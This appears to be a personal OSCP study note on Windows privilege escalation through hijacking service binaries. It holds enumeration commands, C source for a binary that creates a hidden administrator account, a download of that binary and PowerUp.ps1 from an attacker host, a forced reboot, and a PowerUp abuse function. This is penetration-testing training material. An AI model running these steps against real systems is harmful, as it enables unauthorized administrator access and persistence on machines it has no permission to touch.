 ```yaml
---
{"dg-publish":true,"permalink":"/oscp/8-windows-privilege-escalation/5-service-hijacking/"}
---
```


- A Windows Service is a long-running background executable or application managed by the Service Control Manager.
- They are similar to daemons on Unix
- Windows Services can be managed by the Services snap-in, PowerShell, or sc.exe.
- Services are run by LocalSystem (NT AUTHORITY, SYSTEM, BUILTIN), Network Service, and Local Service user accounts.
- Users or programs creating a service can choose either one of those accounts, a domain user, or a local user.

--------
### Writable Files + Directories

Writable files from root directory:
```
cmd /c 'dir C:\ /a-r-d /s /b'
```

Writable directories from root directory:
```
cmd /c 'dir C:\ /ad-r /s /b'
```

-------------
### Manual Service Binary Hijacking
- Each Windows service has an associated binary file.
- They are executed when the service is started or transitioned into a running state.
- An unprivileged user can tamper with misconfigured services being run by higher authority to privesc.
- Look for services with binaries outside of the System32 folder, since they are probably installed and configured by the user manually.

1. Enumerate running processes to identify any to abuse:
```powershell
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}

Alt. Get-Service ... Get-WmiObject ... services.msc
```
2. Enumerate permissions for the identified services:
```powershell
icacls "C:\xampp\apache\bin\httpd.exe"

Alt. Get-ACL

Permissions:
F: Full access
M: Modify access
RX: Read and execute access
R: Read-only access
W: Write-only access
```
3. Create malicious binary. Example in C which will create a new user:
```c
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user zombie password123! /add");
  i = system ("net localgroup administrators zombie /add");
  
  return 0;
}
```
4. Cross-compile it to an 64-bit .exe for Windows:
```bash
x86_64-w64-mingw32-gcc <file>.c -o <file>.exe
```
5. Serve the binary, download it, and move it to the correct directory:
```powershell
iwr -uri http://192.168.119.3/adduser.exe -Outfile adduser.exe
move <pre-path> <post-path>
```
6. Try to restart the service manually (if permissioned):
```powershell
net stop <servicename>
net start <servicename>

#Or run:
Restart-Service <servicename>

#Service name is not the binary file
```
7. If not possible check if it starts again on reboot:
```powershell
Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like '<servicename>'}
```
8. Check if is privileged to restart system (the state should not matter):
```powershell
whoami /priv
```
9. Issue a system reboot using:
```powershell
shutdown /r /t 0
```
10. Remember to repair the binary after escalation!

------------
### Automatic Service Hijacking with PowerUp:
1. Serve the PowerUp.ps1 on your kali machine.
2. Download the script:
```powershell
iwr -uri http://192.168.119.3/PowerUp.ps1 -Outfile PowerUp.ps1
```
4. Run the script with bypass:
```powershell
 powershell -ep bypass
 . .\PowerUp.ps1
```
5. Now check modifiable services identified:
```powershell
Get-ModifiableServiceFile
```
6. Try to use the built-in AbuseFunction to install a service binary (where name is Service Name listed from above command):
```powershell
Install-ServiceBinary -Name 'mysql'
```
7. Win!
